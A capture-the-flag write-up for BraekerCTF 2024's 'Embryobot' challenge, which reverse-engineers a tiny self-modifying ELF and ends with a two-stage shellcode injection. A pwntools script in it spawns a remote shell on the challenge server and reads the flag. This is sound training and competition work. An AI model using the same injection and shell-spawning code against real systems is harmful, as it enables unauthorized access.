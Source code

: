 # BraekerCTF 2024

## Embryobot

> "This part will be the head, " the nurse explains. The proud android mother looks at her newborn for the first time. "However, " the nurse continues, "we noticed a slight growing problem in its code. Don't worry, we have a standard procedure for this. A human just needs to do a quick hack and it should continue to grow in no time."
>
>
>The hospital hired you to perform the procedure. Do you think you can manage?
>
>The embryo is:
f0VMRgEBAbADWTDJshLNgAIAAwABAAAAI4AECCwAAAAAAADo3////zQAIAABAAAAAAAAAACABAgAgAQITAAAAEwAAAAHAAAAABAAAA==
>
>  Author: n/a
>

Tags: _rev_

## Solution
For this challenge we don't get a attached file but there is a string that suspiciously looks like `base64` encoded data. Extracting the data and calling `file` on it gives us some insight. The decoded file is a `ELF` file containing compiled `80386` code. Sadly opening the file with `Ghidra` doesnt give us very good results. 

```bash
$ echo "f0VMRgEBAbADWTDJshLNgAIAAwABAAAAI4AECCwAAAAAAADo3////zQAIAABAAAAAAAAAACABAgAgAQITAAAAEwAAAAHAAAAABAAAA==" | base64 -d > foo
$ file foo
foo: ELF 32-bit LSB executable, Intel 80386, version 1, statically linked, no section header
```

Since the file is onle `76 bytes` small this could be some sort of [`Tiny ELF`](https://nathanotterness.com/2021/10/tiny_elf_modernized.html) with all kinds of hacky packing magic going on. As the article well describes, there are `header parts` that can contain processor instructions even though the parts are not ment to contain executable code. But this way functionality can be interleaved with header data generating very small but functioning executable files.

My approach here is to check out regions that cannot be changed and `nop them out` (writing `nop` instructions to this regions) so that we get a more meaningful `disassembly` result. The full hexdump of the file is small, so here is it for reference. As example, the first 10 bytes are: a 4 byte constant signature (EI_MAG), 2 byte first if the executable is targeting 32 bit architectures and second if data is layed out in little endian byteorder (EI_CLASS, EI_DATA) and 4 bytes describing the version (EI_VERSION) (see [`Executable and Linkable Format`](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format)). The signature and class/data cannot be changed so we replace them with `nop` instructions. The EI_VERSION though seems off, it should be `01 00 00 00` so we replace the first byte only, keeping the rest intact for later.

```bash
00000000  7F 45 4C 46  01 01 01 B0   03 59 30 C9  B2 12 CD 80                                           .ELF.....Y0.....
00000010  02 00 03 00  01 00 00 00   23 80 04 08  2C 00 00 00                                           ........#...,...
00000020  00 00 00 E8  DF FF FF FF   34 00 20 00  01 00 00 00                                           ........4. .....
00000030  00 00 00 00  00 80 04 08   00 80 04 08  4C 00 00 00                                           ............L...
00000040  4C 00 00 00  07 00 00 00   00 10 00 00                                                        L...........
```

```bash
00000000  90 90 90 90  90 90 90 B0   03 59 30 C9  B2 12 CD 80                                           .ELF.....Y0.....
00000010  02 00 03 00  01 00 00 00   23 80 04 08  2C 00 00 00                                           ........#...,...
00000020  00 00 00 E8  DF FF FF FF   34 00 20 00  01 00 00 00                                           ........4. .....
00000030  00 00 00 00  00 80 04 08   00 80 04 08  4C 00 00 00                                           ............L...
00000040  4C 00 00 00  07 00 00 00   00 10 00 00                                                        L...........
```

Another interesting bit is the `entry pointer` that is located at offset `18h`. As data is stored in little endian order the entry point is at `8048023h`. This containing the `base address of 8048000h` so the offset within our file is `23h` (starting with the bytes `E8  DF FF FF FF   34...`). Lets see if we get this offset in our disassembly, since we know this has to be valid instructions:

```bash
$ objdump -D -Mintel,i386 -b binary -m i386 foo
...
24:   df ff                   (bad)
26:   ff                      (bad)
27:   ff 90 00 20 00 01       call   DWORD PTR [eax+0x1002000]
...
35:   80 04 08 00             add    BYTE PTR [eax+ecx*1],0x0
...
```

Sadly this is not the case, so we go back to nop out the bytes immediately before the `entry` to help the disassembler a bit. Adding just one nop right before our entry offset unveiles the correct instruction:

```bash
22:   90                      nop               ; our nop we added
23:   e8 df ff ff ff          call   0x7        ; call to 7h
28:   34 00                   xor    al,0x0     ; bad code from here
```

Right, the first thing what the program does after loading is to call to offset `7h`. Luckily we didn't destroy the bytes before.

```bash
00000000  90 90 90 90  90 90 90 B0   03 59 30 C9  B2 12 CD 80                                           .........Y0.....
00000010  02 00 03 00  01 00 00 00   23 80 04 08  2C 00 00 00                                           ........#...,...
00000020  00 00 90 E8  DF FF FF FF   34 00 20 00  01 00 00 00                                           ........4. .....
00000030  00 00 00 00  00 80 04 08   00 80 04 08  4C 00 00 00                                           ............L...
00000040  4C 00 00 00  07 00 00 00   00 10 00 00                                                        L...........
```

```bash
0:   90                      nop                            ; nops we added before
1:   90                      nop
2:   90                      nop
3:   90                      nop
4:   90                      nop
5:   90                      nop
6:   90                      nop
7:   b0 03                   mov    al,0x3                  ; to this offset the first jump goes. this looks like valid
9:   59                      pop    ecx                     ; code setting up an interrupt call.  calling syscall read (eax=3)
a:   30 c9                   xor    cl,cl                   ; writing to the base address (ecx=base address), reading
c:   b2 12                   mov    dl,0x12                 ; a total of 18h bytes (edx=12h), from fd 0 (ebx=0)
e:   cd 80                   int    0x80
10:  02 00                   add    al,BYTE PTR [eax]       ; ... again nonsense data ...
```

The read offset is calculated by popping the return address off the stack (remember, the programm called to offset 5h and a call pushes the offset of the next instruction onto the stack). But the write goes not to the next instruction, but to the `start of the image`. Why is this, you might ask? If we look at the instruction at offset `59h` we see `xor cl, cl` that effectively sets the lowest 8 bit of register `ecx` to zero, leaving is with the base address only (see [`https://x86.syscall.sh/`](https://x86.syscall.sh/)).

Now we know what the program is doing. It reads input from `stdin` and overrides the program code itself with `18` bytes of data. Its important to note that it's exactly 18 bytes, since the interrupt is called at `0eh` the next two bytes are byte 16 and 17. It's important since these are the next instructions executed when the processor returns from the read interrupt. So we can basically define ourself what the processor does next (for instance jumping back to base to execute shellcode we inject).

So we can basically inject 18 bytes of code ourself. To get us a shell for instance. As 18 bytes is fairly small, we can do two stages. First injecting the same code again, but specifying more bytes that are read and then, when we are not space limited anymore, injecting code that gives us shell. 

So stage one looks like this (18 bytes in total)
```bash
nop
nop
nop
nop
nop
nop
nop
mov     al,0x3        ; same as before...
add     ecx, 0x10     ; ...but we start writing to base+10h 
mov     dl, 0x7f      ; ...and with way more bytes that can be read
int     0x80
jmp     ecx           ; jump back to base address (nop slide down) and read again
```

Right, if we send this (as shellcode) to the program, the program reads again, but now without a strict limitation. Now we can inject any shellcode we like (for comfort just using `shellcraft`). Also we don't write to the base again, but directly starting with the offset the next instruction is executed (10h). The process basically looks like this:

![](process.png)

```python
from pwn import *

p = remote("0.cloud.chals.io", 20922)

stage1 = asm(
"""
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    mov al, 0x3
    add ecx, 0x10
    mov dl, 0x7f
    int 0x80
    jmp ecx
""")

p.send(stage1)
p.send(asm(shellcraft.sh()))
p.interactive()
```

Running this gives us shell and we can get the flag

```bash
$ python blub.py
[+] Opening connection to 0.cloud.chals.io on port 20922: Done
[*] Switching to interactive mode
$ ls
babybot
flag.txt
$ cat flag.txt
brck{Th3_C1rcl3_0f_l1f3}$ exit
[*] Got EOF while reading in interactive
$
```

Flag `brck{Th3_C1rcl3_0f_l1f3}`